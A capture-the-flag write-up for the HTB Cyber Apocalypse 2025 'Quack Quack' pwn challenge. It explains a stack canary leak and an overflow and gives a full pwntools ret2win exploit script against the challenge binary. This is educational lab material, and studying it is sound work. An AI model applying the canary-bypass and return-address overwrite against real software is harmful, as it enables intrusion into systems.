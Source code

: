 ```yaml
---
title: "Quack Quack 🦆 - Stack Canary Exploit Writeup"
tags: [CTF, binary exploitation, stack canary, ret2win, pwn]
---
```


# Quack Quack 🦆

![pwntools](https://img.shields.io/badge/pwntools-✔️-brightgreen)
![Difficulty](https://img.shields.io/badge/difficulty-Easy-blue)
![Category](https://img.shields.io/badge/category-Pwn-orange)
![CTF](https://img.shields.io/badge/Event-HTB%20Cyber%20Apocalypse%202025-purple)

On the quest to reclaim the Dragon's Heart, the wicked Lord Malakar has cursed the villagers, turning them into ducks! Join Sir Alaric in finding a way to defeat them without causing harm.

**Quack Quack**, it's time to face the Duck!

## 📚 Table of Contents

- [Initial Inspection 🕵️](#initial-inspection-%EF%B8%8F)
- [Key observation 🔍](#key-observation-)
- [Vulnerabilities 🧠](#vulnerabilities-)
- [Stack Overflow Explained 🧵](#stack-overflow-explained-)
- [Stack layout (simplified) 📌](#-stack-layout-simplified)
- [Full exploit 🎯](#full-exploit-)
- [Conclusion 🧠](#conclusion-)

## Initial Inspection 🕵️

First we can check the protections enabled on the binary:

![image](https://github.com/user-attachments/assets/632ab392-d266-4b5b-8342-2e543a6702e0)

We can see that there is a canary. Then, in Ghidra:

![image](https://github.com/user-attachments/assets/ab52d254-fd1b-4f6b-8f73-2976fce00e0d)

## Key observation 🔍

We can see that in the first input, we must put "Quack Quack ", otherwise the binary displays "Where are your Quack Manners?!" and exit.

Four interesting lines here:
- `read(0, &local_88, 0x66);` → reads 102 bytes into the buffer
- `pcVar1 = strstr((char *)&local_88, "Quack Quack ");` → finds the position of our marker string
- `printf("Quack Quack %s, ready to fight the Duck?\n\n> ", pcVar1 + 0x20);` → prints data starting 32 bytes after our string (leak!)
- `read(0, &local_68, 0x6a);` → overflow is possible here (stack write past the buffer)

## Vulnerabilities 🧠

This 0x20 offset lets us leak data from the stack, starting 0x20 bytes after our "Quack Quack ", which helps us reach part of the canary.

Let's try to push a string with a specific length, and "Quack Quack " at the very end: 

- 0x66 => 102 in decimal
- "Quack Quack " => 12 characters

After some debugging with gdb, I saw that I needed exactly 89 + 12 characters to reach the canary:

```
from pwn import *

p = process("./vuln")

offset_to_canary = 89
payload = b"A" * offset_to_canary
payload += b"Quack Quack "

p.sendafter(b'> ', payload)

p.recvuntil(b'Quack Quack ')
leak = p.recvuntil(b', ready to fight the Duck?', drop=True)

canary_partial = leak[:7]

canary = b'\x00' + canary_partial
canary_val = u64(canary)

log.success(f"Canary leak : {hex(canary_val)}")
```

![image](https://github.com/user-attachments/assets/dcc251ad-8d84-4e01-8e58-7bc934893c4f)

Ok, now we leaked the canary, we're able to overwrite RIP and take control of the win function, "duck_attack".

## Stack Overflow Explained 🧵

Why does the second read() allow us to overwrite the stack canary and return address?

Let’s take a closer look at the vulnerable function:

```
read(0, &local_88, 0x66); // First read (102 bytes)
...
read(0, &local_68, 0x6a); // Second read (106 bytes) - the overflow
```

## Stack layout (simplified) 📌

Here’s how the local variables are laid out on the stack:

```
|---------------------| <- higher address
|    local_88         |  ← 120 bytes total buffer (15 × 8 bytes)
|---------------------|
|     local_10        |  ← stack canary
|---------------------|
|     saved RBP       |
|---------------------|
|     return address  | <- lower address
```
The stack grows downward in memory (higher → lower addresses)

Now, look at the second read:

```
read(0, &local_68, 0x6a); // 106 bytes
```

We're writing **106 bytes** starting from `&local_68`, which is **not the start** of the buffer — it's **already 32 bytes down** (because `local_88` to `local_68` spans 4 × 8 bytes = 32 bytes).

So how much space is left?
- Total buffer size = 120 bytes
- Offset to local_68 = 32 bytes
- Remaining space = 120 - 32 = 88 bytes
- Data written = 106 bytes
    → Overflow of 18 bytes


![image](https://github.com/user-attachments/assets/d49253e1-4c63-4377-8590-72eb7080e0fa)

The win function, "duck_attack", located at the address "0x0040137f" **(NO PIE)**

## Full exploit 🎯

```
from pwn import *

p = process("./vuln")

offset_to_canary = 89
payload = b"A" * offset_to_canary
payload += b"Quack Quack "

p.sendafter(b'> ', payload)

p.recvuntil(b'Quack Quack ')
leak = p.recvuntil(b', ready to fight the Duck?', drop=True)

canary_partial = leak[:7]

canary = b'\x00' + canary_partial
canary_val = u64(canary)

log.success(f"Canary leak : {hex(canary_val)}")

payload2  = b"A" * 88
payload2 += p64(canary_val)
payload2 += p64(0)
payload2 += p64(0x0040137f) # address of duck_attack()

p.sendafter(b'> ', payload2)

p.interactive()
```
(**More polished exploit here: [exploit.py](https://github.com/notagain-pwn/hackthebox/blob/main/CTF/Cyber%20Apocalypse%202025/pwn/Quack%20Quack/exploit.py)**)

![image](https://github.com/user-attachments/assets/76a2911b-254b-4b15-8c70-a74796145322)

Pwned! 🦆🔥

## Conclusion 🧠

By abusing a format-based leak and a stack canary bypass, we successfully redirected execution to the `duck_attack` function and defeated the cursed villagers. 
 
Sir Alaric wins again — without harming a single duck. 🦆✨

Final result: a clean ret2win exploit using stack leak, canary bypass, and precise buffer control — all thanks to a duck 🦆

🔙 [Back to Cyber Apocalypse 2025 Writeups](../../)
